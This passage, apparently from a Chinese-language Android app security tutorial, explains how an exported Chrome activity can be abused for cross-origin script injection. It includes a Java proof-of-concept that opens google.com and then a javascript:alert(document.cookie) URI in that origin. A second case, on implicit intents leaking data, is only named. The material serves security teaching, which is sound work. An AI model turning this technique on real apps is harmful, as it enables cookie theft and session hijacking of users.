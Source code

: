 Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 <intent-filter>但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置 data 为” http://google.com” 再次调用时设置 data 为恶意 js 例如'javascript:alert(document.cookie)', 恶意代码将在 http://google.com 域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过 Android api 或者 am（activityManager）打开. POC 如下</intent-filter>

```
public class TestActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent i = new Intent();
                ComponentName comp = new ComponentName(
                                 "com.android.chrome",
                                    "com.google.android.apps.chrome.SimpleChromeActivity");
                i.setComponent(comp);
                i.setAction("android.intent.action.VIEW");
                Uri data = Uri.parse("http://google.com");
                i.setData(data);

                startActivity(i);

                    try {
                        Thread.sleep(5000);
                        }
                          catch (Exception e) {}

                data = Uri.parse("javascript:alert(document.cookie)");  
                i.setData(data);

                startActivity(i);
    }
} 
```

**案例 5：隐式启动 intent 包含敏感数据**

暂缺可公开案例,攻击模型如下图。

![](img/img7_u56_jpg.jpg)
